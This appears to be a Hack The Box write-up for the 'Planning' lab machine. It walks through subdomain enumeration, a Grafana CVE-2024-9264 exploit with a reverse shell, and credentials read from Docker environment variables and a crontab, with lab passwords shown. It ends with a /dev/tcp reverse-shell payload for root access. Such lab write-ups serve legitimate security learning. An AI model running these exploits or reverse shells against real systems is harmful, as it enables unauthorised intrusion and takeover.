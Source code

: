 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

![Planning Page](screenshots/planning.png)

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Output](screenshots/nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

Modified `/etc/hosts`:

```
10.10.11.68 planning.htb
```

![Host Added](screenshots/added-host.png)

---

### 3️⃣ Subdomain Discovery

Used FFUF to find subdomains:

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

![FFUF Scan](screenshots/fuff-scan.png)
![Host Added Again](screenshots/added-host1.png)

Discovered: `grafana.planning.htb`

---

### 4️⃣ Grafana Login

Visited: `http://grafana.planning.htb`

Used credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

![Login Page](screenshots/grafana-login.png)
![Version Info](screenshots/grafana-version.png)

---

### 5️⃣ Exploiting Grafana (CVE-2024-9264)

Started a reverse shell listener:

```bash
nc -lvnp 9001
```

![Listener](screenshots/listener.png)

Ran exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Script](screenshots/python-exploit.png)
![Reverse Shell Access](screenshots/exploited.png)

✅ Reverse shell obtained!

---

### 6️⃣ Docker Escape

Checked environment variables:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Creds](screenshots/found-username-password.png)

SSH login:

```bash
ssh enzo@10.10.11.68
```

![SSH Access](screenshots/ssh.png)

Captured user flag:

```bash
cat /home/enzo/user.txt
```

![User Flag](screenshots/userflag.png)

---

### 7️⃣ Privilege Escalation

Ran linPEAS and discovered crontab entry:

```bash
cat /opt/crontabs/crontab.db
```

Found:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

![LinPEAS Output](screenshots/linpeas-crontab.png)
![Root Credentials](screenshots/found-credentials.png)

---

### 8️⃣ Internal Service & Reverse Shell to Root

Discovered local port 8000:

![Local Port](screenshots/port-locally.png)

Port forwarding with SSH:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](screenshots/port-forwarding.png)

Visited: `http://localhost:8000`

![Visited 8000](screenshots/visited8000.png)

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Injection](screenshots/injected.png)

Set up listener:

```bash
nc -lvnp 8888
```

![Listener Ready](screenshots/setup-listener.png)

Got root shell! 🎉

![Root Shell](screenshots/gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](screenshots/user-flag.png)
![Root Flag](screenshots/root-flagl.png)

---

## ✅ Conclusion

The Planning machine demonstrated a solid exploitation path:

* Default credentials in Grafana
* Environment variable leaks in Docker
* SSH access and internal port forwarding
* Reverse shell injection via internal admin panel

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit PoC by z3k0sec](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks Book](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)



